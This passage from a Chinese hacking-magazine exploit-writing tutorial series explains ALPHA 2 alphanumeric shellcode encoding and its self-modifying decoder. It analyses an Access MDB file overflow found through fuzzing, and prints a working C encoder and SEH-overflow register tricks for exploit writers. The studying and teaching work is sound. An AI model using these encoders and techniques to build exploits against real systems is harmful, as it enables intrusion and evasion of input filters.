向 `int 2Eh` 传入的是 EAX 和 EDX 两个寄存器参数：EDX 保存待校验地址指针，EAX 保存函数入口表索引 ID。系统处理 `int 2Eh` 时根据 EAX 分配调用函数，再根据返回值是否为 `0xC0000005` 判断地址是否可读。搜索流程与上一种方法基本相同。

## 总结

综合文中 3 种搜索内存方法，使用 NtDisplayString 搜索内存空间速度最快、占用字节最少、鲁棒性最好。虽然该方法不能用于 Windows 9x，但目前该平台用户已较少。作者在实际编写 ShellCode 时最终选择了该方法。

注：编译本文附带的演示文件时请使用 Masm32。

适合读者：入侵爱好者、溢出爱好者

前置知识：汇编语言，缓冲区溢出基本原理

# 菜鸟版 Exploit 编写指南之四十五

## 再谈全字母数字的 ShellCode 的编码法

文／图 Cmdhz

本文还是要再说一下 ShellCode 的问题。说过了 ShellCode 过主动防御，说过了对内存的搜索，还有什么好说的呢？这次我要说一下有关 ShellCode 的编码问题。

起因源于 2007 年第 4 期《黑客防线》上的《WinRAR 7z 文件名溢出分析和利用》一文，该文中谈到，要避免由于 MultiByteToWideChar 对 ShellCode 转换造成的影响，必须对 ShellCode 进行编码，使得编码后的 ShellCode 满足全部由字母和数字组成的条件。文中还附带了一个 ShellCode 的生成模板……

说到 Unicode ShellCode 的时候，又把这些奇奇怪怪的字符串罗列了出来，于是我下定决心要把这个问题搞清楚。

在正式开始本文内容之前，还是先做一些背景介绍，这样做的目的主要是要完整地体现一个学习过程。

## Unicode 编码特点及对 ShellCode 影响

Unicode 是一个系统，用来表示世界上所有不同语言的字符，就是将世界上所有的文字用 2 个字节统一进行编码。目前，普遍使用的是 UCS-2，即 2 个字节编码，而 UCS-4 是为了防止将来 2 个字节不足以表达世界上其他地区的语言编码才开发的。

既然统一了编码，如何兼容原先各国的文字编码呢？这个时候就需要 CodePage 了。Code Page 就是各国的文字编码和 Unicode 之间的映射表，比如简体中文和 Unicode 的映射表就是 CP936。

Windows 系统中提供了两个 API 函数 MultiByteToWideChar 及 WideCharToMultiByte 用于 ASCII 与 Unicode 之间的转换。对于单字节语言，在进行 Unicode 转换的时候，转换函数会根据当前使用的代码页进行转换……

```c
{
  "nops", "IIIIIIIIIIIIIIII7"
  mixedcase_ascii_decoder_body,
  "eax", "PYIIIIIIIIIIIIIII7QZ"
  mixedcase_ascii_decoder_body,
  "ecx", "IIIIIIIIIIIIIIII7QZ"
  mixedcase_ascii_decoder_body,
  "edx", "JJJJJJJJJJJJJJJJ7RY"
  mixedcase_ascii_decoder_body,
  "ebx", "SYIIIIIIIIIIIIIII7QZ"
  mixedcase_ascii_decoder_body,
  "esp", "TYIIIIIIIIIIIIIII7QZ"
  mixedcase_ascii_decoder_body,
  "ebp", "UYIIIIIIIIIIIIIII7QZ"
  mixedcase_ascii_decoder_body,
  ...
}
```

面对这一串奇奇怪怪的字符串，我一直不解其中之意。找了找《黑客防线》以前的一些说 Unicode 有效的 ShellCode 文章，也没有这方面的说明，于是这个问题就放了下来。后来《黑客防线》的《隔山打牛之 RealPlayer 栈溢出》一文中提到纯字母数字的……

因此，为了绕过 Unicode 编码对 ShellCode 字节的影响破坏，我们必须将编写好的 ShellCode 用 WideCharToMultiByte 转换成为 ASCII 码，并保证转换后的字节不会出现 0x3F 字节。当执行溢出攻击时，编码后的 ShellCode 将会被漏洞程序执行 MultiByteToWideChar 转换，还原为原来的 ShellCode。

为了保证执行转换后的 ShellCode 不会出现 0x3F 字节，必须要对 ShellCode 的汇编指令及参数进行精心的优化与调试，再一个个测试能不能满足要求。这时的代码调试是一件非常繁琐而累人的事情，甚至无法写出满足要求的 ShellCode。因此，采用对 ShellCode 进行编码的方法是最简单直接的方法。但是这里也有一个要求：解码头在 ASCII 码的情况下必须保证是纯字符。

具体的算法大家可以参看下面的程序片段。

```c
A = (shellcode[z] & 0xf0) >> 4;
// ShellCode 的高半个字节
B = (shellcode[z] & 0x0f);
// ShellCode 的低半个字节
F = B;
i = rand() % strlen(valid_chars);
while ((valid_chars[i] & 0x0f) != F)
{
    i = ++i % strlen(valid_chars);
}
E = valid_chars[i] >> 4;
D = 0 ? (A-E) & 0x0f : (A^E);
i = rand() % strlen(valid_chars);
while ((valid_chars[i] & 0x0f) != D)
{
    i = ++i % strlen(valid_chars);
}
C = valid_chars[i] >> 4;
```

## ALPHA 2 编码／解码原理

ALPHA 2 Zero-tolerance 是由 Berend 和 Jan Wever 编写的一个算法，可以把任何 x86 的 ShellCode 完全转化为字符和数字的代码。它生成的代码包含了系统无关的解码部分，可以把编码 ShellCode 恢复成原始状态并执行它。目前 ALPHA 2 Zero-tolerance 算法能创建纯大写的 ShellCode 和 Unicode 代码，还支持 Win32 平台下通过 SEH 自动获取 EIP 的功能。

通过查阅 ASCII 码表，我们可以看到字母数字的 ASCII 码值的取值范围如下。

| 字符范围 | ASCII 范围 |
|---|---|
| A ~ Z | 0x41 ~ 0x5A |
| a ~ z | 0x61 ~ 0x7A |
| 0 ~ 9 | 0x30 ~ 0x39 |

要想编写出纯字母数字的 ShellCode，就要使编码后的 ShellCode 字节码值落在上表所列出的值的范围区间。为了称谓上的方便，我们将以上字符统称为限定字符。

### 1) ALPHA 2 编码原理

ALPHA2 算法的编码原理是将原 ShellCode 字节的 8 位分成高 4 位及低 4 位，分别用限定字符集中的字符来表示。例如原字符的 8 位用 AB 表示，A 是高四位，B 是低四位。加密后的字符由两个字节 CD、EF 表示，同样 C、E 各自是高 4 位，D、F 各自是低 4 位。则其变换关系如下。

- F：等于 B。
- E：限定字符集中低 4 位等于 F 的字符的高 4 位的值。
- D：A 异或 E 后生成的值。
- C：限定字符集中低 4 位等于 D 的字符的高 4 位的值。

然后将 C 作为高 4 位，D 作为低 4 位组成编码后的第一个字节，将 E 作为高 4 位，F 作为低四位组成编码后的第二个字节。大家可以参看下面的程序片段。

```c
sprintf(buf, "%c%c", (C<<4)+D, (E<<4)+F);
strcat(encShellcode, buf);
```

实际上，从上面的计算过程可以看出，字符 C 并不包含有编码信息。也就是说，不需要 C 所包含的字节即可求解出原始字符。增加字符 C 的原因只是为了使编码出来的字符串落入限定字符集所规定的字符中。我们可以使用将 C 赋值为一个固定的值来验证上面的推断，比如“C=0x61<<4;”。只是由于 ASCII 编码的关系，使用固定值后总会使编码后的 ShellCode 出现标点字符，因此，这也说明了增加字符 C 的目的只是为了使编码出来的字符串落入限定字符集所规定的字符中。

### 2) ALPHA 2 解码原理

有了以上编码过程的分析，解码就很简单了。加密字符串两个字节两个字节地取，每次拆出 C、D、E、F。由于 D = A^E，因此 A = D^E。此时，A 和 B 都已经得到，只要将 A、B 再合成一个字符，结果就出来了。

### 3) 编码算法的特点

从分析的过程看，这种编码算法与 Base64 算法有许多相似之处，都是通过左右移位的操作来实现编码。不过从冗余度来说，这个编码算法比 Base64 的冗余度大一些……能得到一个字节，而 Base64 四个字节解码可得到三个字节。编码算法转化的字符与 Base64 差不多，包括 0 到 9 数字和大小写字母，共 62 个码元。也就是前面讨论的，C 字符所包含的高 4 位不包含有效的信息。

在 ALPHA2 的编码算法有这么一句代码“i=rand()%strlen(valid_chars);”，然后通过 while 找码元中满足条件的形成编码字符串。这个初始值为什么要随机呢？由于这种算法的关系，每次在限定字符集的 62 个码元中总有不止一个码元满足条件（对于低 4 位，每 16 个就有一个），所以，即使条件相同，当初始值随机的时候，每一次选到的码元也可能不同。这样就会出现同一个字符两次加密得到的两个字符是不同的，也即多个编码字符实际代表同一个源，编码码元与源码的码元做不到一一对应，总有一些加密码元携带信息的功能被浪费了，这也是冗余的表现。不知道算法的特点，单从编码字符串的表面看，的确不容易看出不同的码元实际上会对应同一个源。

当然，我们这里讨论的只是对 ShellCode 的变形，并不考虑编码后数据的长度。如果需要对数据的压缩做一定的要求时，大量信息的冗余是不能容忍的。

## ALPHA 2 算法汇编实现

- 1）解码程序的编写

我们前面提到过，组成解码函数的指令所对应的 ASCII 码必须保证是纯字符的要求，否则解码函数首先就会由于 Unicode 字符变换而失败。我们以限定字符集中包含大小写的情况为例说明解码函数的汇编实现。

在 ALPHA 2 算法中，解码函数的字节码由以下宏定义：

```c
#define mixedcase_ascii_decoder_body
"jAXP0A0AkAAQ2AB2BB0B3ABXP8ABuI"
```

该解码字符串的反汇编代码如下：

```
6A 41      push 41
58         pop eax
50         push eax   ; 保存结束标志'A'
3041 30    xor byte ptr ds:[ecx+30],al
; 修改指令004300AD中的51为10
41         inc ecx
```

```
6B41 41 51 imul eax,dword ptr ds:[ecx+41],51  --Q
; 被修改指令
3241 42 xor al,byte ptr ds:[ecx+42]
3242 42 xor al,byte ptr ds:[edx+42]
3042 42 xor byte ptr ds:[edx+42],al
; 修改指令004300C1中的4A为E9，保证跳转的正确
41 inc ecx
42 inc edx
58 pop eax
50 push eax
3841 42 cmp byte ptr ds:[ecx+42],al
75 4A jnz short 0043010D ----J，被修改指令
49 dec ecx
```

在以上汇编程序中需要注意的有两点：该汇编代码需要对指令本身进行一定的修正，才能保证解码程序的正确执行。修正前的语句为：

`6B41 41 51 imul eax,dword ptr ds:[ecx+41],51`

执行语句“xor byte ptr ds:[ecx+30],al”后将会被修正为：

`6B41 41 10 imul eax,dword ptr ds:[ecx+41],10`

该语句的作用其实就是执行左移 4 位的操作。由于执行左移操作的指令“shl dword ptr ds:[ecx+41],4”的机器码为 0x044161C1，不满足限定字符集的要求，直接使用“imul eax,dword ptr ds:[ecx+41],10”指令又由于操作数不满足要求，因此使用了这条等价指令，然后再执行修正。

修正指令的另一处为：

`75 4A  jnz short 0043010D`

执行完修正后的指令为：

`75 E9  jnz short 00431FBC`

程序将跳转到指令 inc ecx 处继续下一次循环。之所以要做这样的修正的原因也是由于操作数 0xE9 超出了限定字符集的范围。

解码过程的汇编代码如下：

`6B41 41 10 imul eax,dword ptr ds:[ecx+41],10`

以上语句相当于执行左移 4 位的操作，得到的值为 D0。

`3241 42 xor al,byte ptr ds:[ecx+42]`

相当于执行“D0^E0^0F”，执行结果保存在 al 中。与 0 执行异或并不会对运算结果产生影响，由于此时 al 中已经保存了解码的结果，那么为什么还要再执行两次异或呢？答案还是由于受到限定字符集的影响，数据传送指令无法满足我们的要求。

```asm
3242 42 xor al,byte ptr ds:[edx+42]
3042 42 xor byte ptr ds:[edx+42],al
```

以上两条指令相当于执行了“D0^E0^0F^C0^0D”，操作后再执行“D0^E0^0F^C0^0D^C0^0D”操作，最后也就是执行“D0^E0^0F”，并把结果保存到内存地址中。因此，我们可以看到代码的编写者使用 Xor 指令执行赋值，为了抵消 Xor 对该字节的值产生的影响，所以又再次引入了另一个 Xor 操作。

## 2）解码头的说明

现在我们回过头来看为什么会出现稍显得奇怪的解码头字符串。在解码字符串的时候，首先要定位出待解码的字符串在内存中的位置。通常情况下，我们采用以下的程序段来执行定位的操作：

```asm
jmp decode_end

decode_start:
    pop edx
    ......

decode_end:
    call decode_start
Shell_start:
```

但是，由于限定字符集的限制，解码代码中不能出现绝对跳转 JMP(\xEB)、过程调用 Call(\xE8) 指令，因此定位操作只能采用别的方法。这样，就要求首先我们要确定执行溢出时指向待解码字节的寄存器，然后根据指向 ShellCode 的不同寄存器选择不同的解码头代码，然后才能进行下一步的操作。因此，在 ShellCode 的生成模板中我们可以看到不同的寄存器对应着不同的解码代码字符串。这些字符串的主要差异在于开头的一个字母，主要是入栈寄存器的不同，即 Push Reg。

下面我们看一下解码头字符串“SYIIIIIIIIIIIIIIII7QZ”所对应的汇编代码。

```asm
53  push ebx   ; 对应字符为S
59  pop ecx    ; 对应字符为Y
49  dec ecx    ; 对应字符为I
49  dec ecx
49  dec ecx
49  dec ecx
49  dec ecx
49  dec ecx
49  dec ecx
49  dec ecx
49  dec ecx
49  dec ecx
49  dec ecx
49  dec ecx
49  dec ecx
49  dec ecx
49  dec ecx
49  dec ecx
49  dec ecx
49  dec ecx
37  aaa      ; 对应字符为7
51  push ecx ; 对应字符为Q
5A  pop edx  ; 对应字符为Z
```

程序首先将待解码字节的地址保存到 Ecx 中，然后让 Ecx 指向待解码字节之前的 0x10 偏移处。为什么要把 Ecx 指针向上移动 0x10 呢？答案还是因为受限字符集的限制。在 ALPHA 2 算法汇编实现一节中我们谈到，指令“xor byte ptr ds:[ecx+30],al”用来完成对其后 5 个字节处的指令进行修改。如果不将 Ecx 指针向上移动 0x10 字节，那么这条指令应该这样编写：

`3041 20  xor byte ptr ds:[ecx+20],al`

此时，操作数中含有的 0x20 不在限制字符集的范围内，因此程序通过移动 Ecx 指针后，使得指令符合要求。字符串中所含有的“I”字符正是“dec ecx”指令所对应的字节码的表示。

说到这里，大家应该是对 ALPHA 2 编码算法有了比较全面的了解了吧？心中的那些疑团也应该烟消云散了。这里再说明一个细节：由于定位待解码长度的困难，编码时以字符“A”作为 ShellCode 结束的标志。细心的读者可以从编码函数的实现代码中看到，限制字符集中排除了“A”字符，因此编码后的字符不可能出现“A”。

## 总结

通过以上分析，我们看到 ALPHA 2 算法的编写者不仅设计出了编解码的算法，而且精心编写了算法的具体实现代码及利用模板。为了满足限制字符集对指令的要求，在短短的解码函数的汇编语言实现中使用了大量的编程技巧，让我们不得不叹服作者构思的精巧及高超的编程能力。

本文以编码后的字符不区分大小写为例进行了分析说明。对于编码后的字符只能包含大写或小写字母的情况的解码程序，读者可以自行进行分析。

全字母数字的 ShellCode 的变形方法实际上还有很多，《黑客防线》以前的文章也介绍过一些。作为一名溢出爱好者，编写出适用、好用的 ShellCode 是一种基本功，只有通过平时不断的积累与动手实践才能不断地拓展思路，提高能力。

前置知识：汇编语言、缓冲区溢出基本原理

关键词：溢出、MDB、Fuzz

# 菜鸟版 Exploit 编写指南之四十六

## 重组 MDB File 文件漏洞

文／图 Xia0&Cutter

话说 Windows 系统初开时，MDB 文件就被微软视为和 PE 文件一样邪恶。向世人告诫：千万不要随意点击 .mdb 文件，否则后果自负。所以它的漏洞 MS 是从来没有 patch 过的。直到 2007 年年底一个月黑风高的夜晚，一个名叫 officeExp 的人，发现了一种新的利用方法：将 MDB 文件和 Word 文件紧密结合在一起，分别赐名倚天 MDB 和屠龙 DOC，通杀 Office 所有版本。MS 面对倚天和屠龙咄咄逼人的攻势，先是口头警告，结果丝毫没有减缓倚天和屠龙一统江湖的步伐，最后 MS 不得不启动最后的绝招，在 MS08-026 偷偷地 patch。OfficeExp 及其追随者认为不公，发动了第一次攻击。最后倚天和屠龙赢得了他们应有的荣誉，MS 迫于压力，无奈地承认这个事实，最终发布了 MS08-028。

在分析 MDB File 漏洞之前，已经有一些朋友做过这方面的工作，这些工作为我们的分析提供了很大的帮助，所以该漏洞如何利用就不多加叙述了。大家可以参考 2008 年《黑客防线》第二期《浅析 Microsoft Jet Engine MDB File 溢出漏洞》一文。这篇文章在分析漏洞触发原因上笔墨很少，在这里我们将 Fuzz 技术与逆向分析结合，一步一步重现这个漏洞，看一下我们是如何与这个漏洞擦肩而过的，也是对这篇文章的一点补充吧。

## 样本分析，情景重现

网上流传的样本应该是通过 Fuzz 得到的，细心的朋友很容易看出问题所在。新建一个 .mdb 文档，在 2032h 处改为样本中提供的值 EE EE，……


图1

如图 1 所示。

修改后，运行该样本，Access 挂掉，没有报错信息，应该是异常处理被覆盖了。Symantec10.0 会查杀该样本，根据其提示信息是 CVE-2008-1092，可以看出 Symantec 对该漏洞报告很准确。大家再做一些分析，不难发现我们已经重现漏洞了。不过这不是这篇文章的重点，在此一笔带过。

## Fuzz——寻找带颜色的雨滴

换一种思路，从 Fuzz 的角度看这个问题。假如是我们使用 FileFuzz 对新建的 Mdb 文件 Fuzz，那么产生的样本数是 10000 多个，而报错的信息也有几百条，我们能否从数量众多的错误报告中获得这个可利用的漏洞，或者仅仅是将它与其他的错误报告一起丢弃，成为我们一个失败的样本。

按照往常的习惯，首先会选用 0xFF 作为 Fuzz 数据，那么用 0xFF 作为 Fuzz 数据会出现什么情况呢？如图 2 所示。

当一再面对这样的报错信息后，你我会一样地麻木，把它作为一个失败的 Fuzz 样本丢掉，然后去查看下一个错误信息。当然，现在我们知道这个错误离漏洞仅一步之遥，但在当时看来，这样的一个出错信息到一个可利用的漏洞是遥不可及的。下面我们进行详细的分析，看看我们是如何错过这个漏洞的。使用 Fuzz 数据（0xFF）进行计算的代码出现在 msjet40.dll 中，代码如下：

```asm
1b00f573 8b482b    mov ecx, dword ptr [eax+2Bh]
...
// eax 指向文中的数据结构
// [eax+28] 是我们修改后的伪数据 0x000000FF
.text:1B00F573 mov ecx, [eax+2Bh]
.text:1B00F576 lea edx, [ecx+ecx*2]
.text:1B00F579 mov ecx, [esp+30h+arg_4]
.text:1B00F57D lea ebx, [edx+4+37h]
.text:1B00F584 add eax, ebx
.text:1B00F586 push eax
.text:1B00F587 push ecx
.text:1B00F588 push edi
.text:1B00F589 mov ecx, esi
.text:1B00F58B call sub_0_1B00F630
...
```

Pdest={(0xXX*3)*4+37}+p，由于文件映射到内存中的位置是相对的，所以 p 指针的值无关紧要。接下来对即将调用的函数 Sub_1B00F630 进行分析，这个函数体并不大，注意两处关键代码：一处在 Text:1B0B74B2 处，完成功能是拷贝代码；如果我们可以控制拷贝大小或者拷贝目的地址等关键地方，就可以覆盖返回地址，可能触发栈溢出。另一处在拷贝代码之前，Text:1B00F785，决定能否跳转到拷贝流程。下面就这两处代码段进行简要说明。

```asm
.text:1B00F785 loc_0_1B00F785:
.text:1B00F785 movsx edx, word ptr [edi]
.text:1B00F788 mov ecx, [esi-0Ah]
.text:1B00F78B add edi, 2
// 如果满足 ecx 大于 0x2341 条件，则可以跳入拷贝代码中
.text:1B00F78E cmp ecx, 2341h
.text:1B00F794 lea eax, [esi-0Bh]
.text:1B00F79B mov [esp+0C8h+var_AC], edi
.text:1B00F79F ja loc_0_1B0B74...
loc_0_1B0B74B2:
.text:1B0B74B2 mov ecx, edx
.text:1B0B74B4 mov esi, edi
.text:1B0B74B6 mov ebp, ecx
.text:1B0B74B8 lea edi, [esp+0C8h+var_88]
.text:1B0B74BC shr ecx, 2
.text:1B0B74BF rep movsd
.text:1B0B74C9 rep movsb
```

接下来我们分析遇到的两个问题：一是传递到该子函数中的参数是否可以影响程序运行至拷贝代码段，并且可以顺利溢出呢？二是如果该参数可以影响程序的流程，需要怎样调整传入的参数，才可以绕过检查，即如何调整 Fuzz 的值（0xFF）才可以利用该漏洞。如果我们得到了上述问题的答案，那么这个漏洞的报告可能出现在 2006 年？2000 年？继续我们的分析工作，监视我们压入堆栈的指针，设置读断点“ba r4 0012df50”，栈操作是 4 字节，要注意边界对齐，否则可能会导致断点失效。第一处断在 1b00f65c 处，代码如下：

```asm
1b00f65c 8b4424d0      mov esi,dword ptr [esp+0D0h]
1b00f663 0fbfc0        movsx eax,ax
// eax=0x00000011 为固定的值
1b00f666 8d0480        lea eax,[eax+eax*4]
1b00f669 8d3486        lea esi,[esi+eax*4]
1b00f66c 03c6          add eax,esi
1b00f66e 66395521      cmp word ptr [ebp+21h],dx
...
0:000> p
 eax=... ecx=... edx=... esi=... edi=...
```

```text
eip=1b00f66e esp=0012de80 ebp=1105e008 iopl=0 nv
up ei pl nz na pe nc
0:000> d eax
1105eddc 00 39 00 2e 00 30 00 23 00 30 00 23 00 43 00 3a ...
1105edec 00 5c 00 50 00 72 00 6f 00 67 00 72 00 61 00 6d ...\Program
```

由我们提供的参数计算得到拷贝的大小 DWORD*PCopySize=Pdest+((0x11*5)+((0x11*5)*4))，随后将 eax 放入局部变量中。由前面的分析可知，拷贝的大小就是 [eax] 的值 0x2e003900。

第二处断在 1b00f6ad 位置，代码如下：

```asm
1b00f6ad 8b8c24d00000000 mov ecx,dword ptr [esp+0D0h]
1b00f6b4 8d710b lea esi,[ecx+0Bh]
1b007f85 movsx edx, word ptr [edi]
1b007f88 mov ecx,[esi-0Ah]
1b007f8b add edi,2
1b007f8e cmp ecx,2341h
1b007f9f ja loc_01B0B74
0:000> d esi-a
1105ec34 00 00 00 00 ...
```

绕过检测的数为 Unsigned long*count=Pdest+0xB-0xA，此时 [esi-A]=0x00000000。在这种情况下，是无法跳入拷贝的代码中的，但是又因为传入的参数出现了问题，该函数运行不成功，随后弹出一个无效的数据库文件错误的对话框。

如果我们合适构造 Fuzz 值，如果是 0xEE，就可以进入拷贝流程，进一步控制拷贝过程，达到利用的目的。

## 总结

Fuzz 是目前漏洞挖掘的主要手段，同时 Fuzz 的种种缺点也在这种广泛的应用中暴露无遗。Fuzz 报告提供的 bug 信息很粗略，一般情况下离问题代码都有一定的距离，这需要深厚的分析代码功底，分析程序流程，构造 exploit，所以说逆向分析能力在 Fuzz 中占有重要的位置。

如果对代码不加以逆向分析，Fuzz 的效率就会大大折扣，我想如 mov ecx,eax; Call[ecx+4] 这样的漏洞并不是很多。

Fuzz 数据生成方案一直都是 Fuzz 工作者探讨的热门话题之一，Fuzz 数据对 Fuzz 结果的影响在这个漏洞中体现得尤为突出。大家有兴趣可以参考《Fuzzing: Brute Force Vulnerability Discovery》一书中的相关章节。

现在的漏洞分析和挖掘正面临一场新的变革，传统的漏洞利用方法面临严峻的考验。SWF 漏洞利用的成功，似乎让大家看到了一些曙光，但革命尚未成功，同志仍需努力。

前置知识：汇编语言，缓冲区溢出基本原理  
关键词：溢出，Shellcode，算法

# 菜鸟版 Exploit 编写指南之四十七

## The shorter, the better

## ——通信间谍的数字编码 Shellcode


文/图 Seer[N.N.U]&[suck-o]

新东方戴云教主尝曰：“The longer, the better”，是乃应试写作之要义。然 shellcode 之编写则反之，故曰：“The shorter, the better”。

numeric 编码的改进，主要通过精简解码头来缩短 Shellcode 的长度。国外大牛给出的编码源程序较长，为了节省版面，以下给出的是本人修改的超精简版，改进了输入部分，并且只保留了最常用的数字+大小写字母混合编码方式。

## Alpha-2 算法：一字千金的解码头

Windows XP SP3 下测试通过。

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <time.h>
#include <windows.h>

#define VERSION_STRING "ALPHA 2: Zero-tolerance. (build 07)"
#define COPYRIGHT "Copyright (C) 2003, 2004 by Berend-Jan Wever"

strcasecmp(const char* __sz1, const char* __sz2)
{return _stricmp(__sz1, __sz2);}

#define mixedcase_ascii_decoder_body "AkA0D2A00A0kA0D2A12B10B1ABjAX8A1uIN"

struct decoder {
    char* id;
    char* code;
    char* body;
} mixedcase_ascii_decoders[] = {
    { "nops", "IIIIIII", mixedcase_ascii_decoder_body },
    { "eax", "PYIIIIQZ", mixedcase_ascii_decoder_body },
    { "ecx", "IIHIIQZ", mixedcase_ascii_decoder_body },
    { "edx", "JJJJJJRY", mixedcase_ascii_decoder_body },
    { "ebx", "SYIIIIQZ", mixedcase_ascii_decoder_body },
    { "esp", "TYIIIIQZ", mixedcase_ascii_decoder_body },
    { "ebp", "UYIIIIQZ", mixedcase_ascii_decoder_body },
    { "esi", "VYIIIIQZ", mixedcase_ascii_decoder_body },
    { "edi", "WYIIIIQZ", mixedcase_ascii_decoder_body },
    ...
    { NULL, NULL, NULL }
};

struct decoder* decoders[] = {
    mixedcase_ascii_decoders
};
```

```c
int main(int argc, char* argv[]) {
    int nonewline = 0, nocompress = 0, options = 0, spaces = 0;
    int i, input, A, B, C, D, E, F, size = 0;
    char* valid_chars;
    char* baseaddress = "esp";

    // 设定指向解码头的寄存器
    char shellcode[] = "\x90\x90";

    srand((unsigned int)GetTickCount());
    if (baseaddress == NULL) exit(EXIT_FAILURE);
    valid_chars = "0123456789BCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz";

    for (i = 0; strcasecmp(baseaddress, decoders[options][i].id) != 0; i++) {
        if (decoders[options][i + 1].id == NULL) {
            exit(EXIT_FAILURE);
        }
    }

    printf("%s", decoders[options][i].code);

    // read, encode and output shellcode
    while (size < sizeof(shellcode) - 1) {
        input = shellcode[size];
        A = (input & 0xf0) >> 4;
        B = (input & 0x0f);
        F = B;

        // E is arbitrary as long as EF is a valid character
        i = rand() % strlen(valid_chars);
        while ((valid_chars[i] & 0x0f) != F) { i = ++i % strlen(valid_chars); }
        E = valid_chars[i] >> 4;

        // normal code uses xor, unicode-proof uses ADD
        D = A ^ E;

        // C is arbitrary as long as CD is a valid character
        i = rand() % strlen(valid_chars);
        while ((valid_chars[i] & 0x0f) != D) { i = ++i % strlen(valid_chars); }
        C = valid_chars[i] >> 4;

        printf("%c%c", (C << 4) + D, (E << 4) + F);
        size++;
    }

    printf("A%s", nonewline ? "" : "\n");
    // Terminating "A"
    exit(EXIT_SUCCESS);
}
```

也许你对节省的长度不以为然，但在不影响功能的前提下尽可能缩短长度，是一个原则。要记得我们写 exploit 不仅是在完成任务，更是在雕琢一件艺术品。

如果你还没有这个程序。OK，给你 5 分钟，把它迅速添加到你的武器库中吧。

下面再讲上面代码的使用方法。Alpha-2 的用法和 Alpha-1 大同小异，需要把你的 Shellcode 放进程序的 `char* shellcode = ""` 那里进行编码。当然，这只是第一步。由于编码的限制，我们需要手工把特定的寄存器指向解码头（或者说是 shellcode）的第一字节，才可以正常解码。

举个例子，如果 esp 指向了 shellcode 的第一字节，我们就需要用 TYIIIIIIQZ 作为解码头（在程序里 `char* baseaddress = "esp"` 就行）。执行到解码头时必须出现如图 1 所示的情形才可以正常使用。如果是 eax 指向 shellcode，就必须出现图 2 的情形，以此类推。记住，解码头的长度都是事先计算好的，解码循环跳转的是一个固定地址（即解码头第一字节入栈的那个寄存器），差了一个字节都会出错，如图 3 所示。虽然 A = `inc ecx`，为类 nop 指令，但这样也是会出错的，必须要将指定寄存器指向解码头的第 1 字节才行。


解码头的选择，具体到比较常见的两种溢出利用方式，还是有套路可循的。

- 1. 覆盖返回地址的溢出。覆盖返回地址的溢出发生后，我们通过 `jmp esp` 跳到了 shellcode。现在，哪个寄存器指向了 shellcode？好吧，我承认这个问题简直是在侮辱你的智商。答案是 `esp`，TYIIIIIIQZ。
- 2. 覆盖 SEH 的溢出。下面我们来推导一下在最常规的覆盖 SEH 溢出发生后，esp 与 shellcode 位置的关系。此处绝非让你死记硬背，而是要通过分析一次最常见的情况，帮助你理解 Alpha shellcode 解码头调整的一般思路。

已知通过 `pop pop retn` 三条指令，我们跳到了 `[shellcode地址-8]` 的位置。跳过去后再通过放在那里 `nop nop jmp 04` 进 shellcode，这个还记得吧？下面看好了，要进行变形了！

```text
<=> 通过 `add esp, 4`，`add esp, 4`，`retn` 三条指令，我们跳到了 `[shellcode地址-8]` 的位置
<=> 通过 `add esp, 8`，`retn` 两条指令，我们跳到了 `[shellcode地址-8]` 的位置
<=> `add esp, 8` 后，esp 指向了 `[shellcode地址-8]` 的位置
<=> esp 先加 8，取出现在 esp 指向的内容，它指向了 `[shellcode地址-8]` 的位置
<=> esp 先加 8，取出现在 esp 指向的内容，弹出来给 esp，再把 esp + 8，现在 esp 指向 shellcode。
```

通过最后一句话，让 esp 指向 shellcode 所需的变换已经很清楚了；而非常幸运，其中提到的几个操作，指令码全部为符合条件的 ASCII 字符：

| 指令 | 十六进制 | 字符 |
|---|---|---|
| Inc esp | 44h | D |
| Pop esp | 5Ch | \ |
| Dec esp | 4Ch | L |

我们需要在 TYIIIIII 之前加上这些诡异字符的组合，以调整 esp 指向 shellcode。根据最后一句话，在 8 个 D——执行了 8 次 `inc esp` 之后，esp 指向的第一个 DWORD 的值加上 8 就是 shellcode 的地址了，如图 4 所示。我们再来一个 `pop esp` 把它取出来即可，如图 5 所示。


图 4

现在，宏操作完毕，esp 距 shellcode 只有 8 字节之遥，下面我们的任务就是通过“微操作”把 esp 再加上 8。

别忘了，`inc esp` 这条指令可以使 esp 向我们的 shellcode 前进一字节，但这条指令本身也占一字节，会把我们的 shellcode 往后推一字节。用这个指令实在是画蛇添足之嫌，所以我们要用更有效率的指令来完成提升 esp 的工作。

```text
Pop eax = add esp, 4 = 58h = X
```

这个够了吧？指令本身会把 shellcode 推后一字节，但 pop 执行一次能追上 4 字节。如果追过了呢？那就再补 `dec esp` 吧。

在最常规的覆盖 SEH 溢出中，我们需要附加的调整代码为 `DDDDDDDD\XXXXXXA`。如图 6 所示，A = `inc ecx`，类 nop 指令，用来占位。


图 6

下面总结一下。第一，覆盖 SEH 时遇到的情况会相对多变，需要根据具体情况进行调试，光看书是没用的，必须要动手做一次才会明白。因此，我给有兴趣的朋友们留了个小挑战，相信你完成后一定会对这类 shellcode 有新的领悟。

随文我提供了一个 C/S 通信小程序的溢出。要求不得写 exploit，直接用所给的客户端发送一段字符，在服务端上开个 cmd 窗口。注意，MFC 的文本框只接收 0x80 以下的字符。

第二，不要把我们寻找地址的范围局限于那几个寄存器，实际上，整个堆栈里都是我们的资源，只要灵活运用 `push`、`pop`、`retn` 等指令，总能找到合适的地址。在“非典型”的溢出中，这点显得尤为重要。

## Pop-up shellcode，见缝插针，化整为零

在 shellcode 编写的漫漫长路中，编码总是一个关键问题。在各种编码方式中，以数字字母编码最为流行，将 shellcode 编码为一串漂亮的数字和字母，几乎可以胜任任何场合。然而，我们也为之付出了高昂的成本——由于编码算法基于将一个字符拆成两个字符的原理，会把我们的 shellcode 成倍拉长，再加上本身的解码头有 50 余字节，最终的 shellcode 动辄要达到 500 字节以上。对于大多数的溢出，这个长度是很奢侈的。而 Seer 的一个小发明，可以在一定程度上将其精简。

想出这个点子主要是受到 windsor 学长给我的灵感，基于以下 3 点来实现。

- 1. 在所有的 shellcode 中，我们都把大量的长度用在给字符串压栈上，这些字符串包括函数名，以及函数的参数。前人们提出的精简方法，如 hash 搜索法，就是用来精简这部分长度的。
- 2. 这些字符串几乎全部为满足条件的可见字符，将其重复编码更是对长度双倍的浪费。是的，我们甚至没有必要把它们放在 Shellcode 里面。
- 3. Alpha-Numeric 编码的麻烦在于，如果你想更改某个参数，就得全部重新 encode 一次，写生成器就更加麻烦，得在生成器里实现整个编码过程。

